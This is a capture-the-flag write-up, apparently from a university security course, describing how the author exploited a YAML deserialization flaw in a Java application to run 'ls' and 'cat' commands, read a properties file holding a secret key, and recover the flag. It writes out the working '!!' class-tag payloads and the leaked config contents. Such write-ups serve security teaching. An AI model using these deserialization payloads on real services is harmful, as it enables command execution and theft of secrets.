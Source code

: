As said in the exercise's instructions, I checked all the regular expression and other kind of conditions to be sure to pass them.
The restrictions were permissive enough to let us craft the necessary payloads. Notice we could only use `ls` and `cat` commands.

\pagebreak

That's how I started, by executing `ls` commands to find my way to the `application.properties` file. 
Note the particular syntax using `!!` to call a specific class and the `[]` to pass parameters.

```
!!heig.slh_24_ctf.CommandFileGenerator [ !!java.lang.String [ secretfile ], !!java.lang.String [ ls ] ]
```

I knew I had to find this file, because I searched a moment locally to find something interesting in the project's folder.
Luckily for me, it was pretty explicit the key would be there.

After each command I had to check the output at the address `http://10.190.133.22:9004/command/secretfile` to see the output of the `ls` commands.
Once I found the desired file, I switched to a `cat` command to print its content.

```
!!heig.slh_24_ctf.CommandFileGenerator [ !!java.lang.String [ secretfile ], !!java.lang.String [ cat app/main/resources/application.properties ] ]
```

Bingo !
This was the content I found inside. There is the secret key I need to end the challenge.

```
# Location : http://10.190.133.22:9004/command/secretfile

Generated File Content
# Server port
server.port=8080

# Secret key
secret.key=7a0346cc2f0209c32c2d94aef4468cdf

# Encrypted flag
secret.data=9yy3Cdy9YhhxSsAzPnQeBGSNuaYs+1BXxOUH0noVnUuwckTvYeUkyf4rj/KUawLhXojMz6eQCmGB7zWKYekAdOyPJSkKuJC2/CMIItm2vSI=

# Thymeleaf
spring.thymeleaf.prefix=classpath:/templates/
spring.thymeleaf.suffix=.html
spring.thymeleaf.cache=false
```

Finally, I used the secret recovery page at `http://10.190.133.22:9004/secret` to get the flag and here it was :

```
Nice work ! Your flag is SLH_24{xXCodeWarrior2007Xx}
```
